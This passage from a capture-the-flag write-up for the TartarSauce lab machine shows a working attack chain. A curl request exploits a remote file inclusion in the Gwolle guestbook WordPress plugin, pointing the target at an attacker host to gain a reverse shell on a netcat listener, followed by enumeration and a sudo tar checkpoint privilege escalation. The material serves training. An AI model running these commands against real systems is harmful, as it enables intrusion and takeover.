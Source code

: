 ```bash
nc -nlvp 443
curl -s -X GET http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6/
# :)

whoami
hostname -I

# Console Treatment
script /dev/null -c bash
# [Ctrl^Z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

uname -a
lsb_release -a
# xenial
id
groups
cat /etc/passwd | grep 'sh$'
sudo -l
# (onuma) NOPASSWD: /bin/tar

sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
whoami
```

<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Together with the **[hack4u](https://hack4u.io/){:target="_blank"}** community we were able to create a script (**autopwn.sh**) to automate the first phase of the lab's **Engagement**. It allows access to the machine, and with the help of the **[built-in bash `getopts` command](https://zerotomastery.io/blog/bash-getopts/){:target="_blank"}** I can choose with which user I want to do it (**www-data** or **onuma**).
